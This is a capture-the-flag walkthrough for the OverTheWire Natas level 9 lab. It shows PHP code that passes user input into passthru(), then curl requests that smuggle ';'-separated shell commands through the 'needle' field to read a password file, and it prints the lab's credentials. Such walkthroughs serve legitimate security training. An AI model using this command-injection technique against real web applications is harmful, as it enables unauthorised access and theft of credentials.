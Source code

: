 # NATAS LEVEL 9

```
http://overthewire.org/wargames/natas/natas9.html
```

```
Username: natas9
Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
URL:      http://natas9.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

Looks like we have a form which takes the input `needle` and uses it as the
search pattern for `grep` against a file called `dictionary.txt`.

```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Since the source is just taking our input directly as the regular expression
pattern, what if we use `.*` to match against everything in the file?

```
$ curl 'http://natas9.natas.labs.overthewire.org/?needle=.*&submit=Search' -H 'Authorization: Basic bmF0YXM5OlcwbU1oVWNSUm5HOGRjZ2hFNHF2azNKQTlsR3Q4bkRs'
```

So this works and does dump the entire `dictionary.txt` to us, but that doesn't
contain anything that looks like the password. What if we exploit the codes use
of the `passthru()` function to execute our own commands?

```
passthru() - http://php.net/manual/en/function.passthru.php

The passthru() function is similar to the exec() function in that it executes a command.
```

The `;` character can be used to delimit commands within a single line, so let's
try something like: `somestring; ls -l /etc/natas_webpass/natas10` as our input
as that will turn into..

```
passthru("grep -i somestring; ls -l /etc/natas_webpass/natas10 dictionary.txt");
```

Submittng that search string we get..

```
Output:
<pre>
-r--r----- 1 natas10 natas9     33 Dec 20  2016 /etc/natas_webpass/natas10
-rw-r----- 1 natas9  natas9 460878 Dec 15  2016 dictionary.txt
</pre>
```

Great.. now all we need to do is dump that file for our password by tweaking
our input to something like: `somestring; cat /etc/natas_webpass/natas10; ls -l`
which would become..

```
passthru("grep -i somestring; cat /etc/natas_webpass/natas10; ls -l dictionary.txt");
```

The trailing `ls -l` was just so we didn't dump the contents of dictionary.txt
as well.

```
$ curl 'http://natas9.natas.labs.overthewire.org/?needle=somestring%3B+cat+%2Fetc%2Fnatas_webpass%2Fnatas10%3B+ls+-l&submit=Search' -H 'Authorization: Basic bmF0YXM5OlcwbU1oVWNSUm5HOGRjZ2hFNHF2azNKQTlsR3Q4bkRs'
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
-rw-r----- 1 natas9 natas9 460878 Dec 15  2016 dictionary.txt
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
